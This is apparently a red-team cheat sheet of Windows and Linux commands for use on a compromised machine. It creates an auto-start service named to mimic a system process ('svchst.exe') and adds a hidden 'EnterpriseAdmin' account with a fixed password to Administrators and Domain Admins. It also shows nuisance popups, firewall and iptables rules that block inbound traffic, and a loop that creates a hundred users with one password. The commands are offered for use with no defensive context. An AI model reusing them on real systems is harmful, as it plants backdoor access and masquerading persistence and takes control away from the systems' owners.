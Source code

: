 ## Windows
### Services
```powershell
New-Service -Name WinStart -DisplayName WinStart -BinaryPathName "C:\Windows\System32\svchst.exe" -StartupType Automatic
```
### Users
```cmd
net user EnterpriseAdmin 3rm@ctually! /add
net localgroup Administrators EnterpriseAdmin /add
net group "Domain Admins" EnterpriseAdmin /add
```
### PowerShell Popup
```powershell
Add-Type -AssemblyName PresentationFramework
[System.Windows.MessageBox]::Show("Erm", "Erm", [System.Windows.MessageBoxButton]::Ok, [System.Windows.MessageBoxImage]::Error)
```
### Firewall Rules
```powershell
New-NetFirewallRule -DisplayName "Erm" -Direction Inbound -Protocol TCP -LocalPort 69 -Action Block
New-NetFirewallRule -DisplayName "Erm" -Direction Inbound -Protocol UDP -LocalPort 69 -Action Block
```
```cmd
netsh advfirewall firewall add rule name="Erm!" dir=in action=block protocol=ICMPv4
netsh advfirewall firewall add rule name="Block Port 12345" dir=in action=block protocol=TCP localport=12345

```
### Services
```powershell
Restart-Service [service name]
```
## Linux
### Iptables
```bash
sudo iptables -A INPUT -p tcp --dport 69 -j DROP
```
### Make a ton of users
```bash
for i in {1..100}; do sudo useradd user$i -m -p $(openssl passwd -1 initialpassword); done
```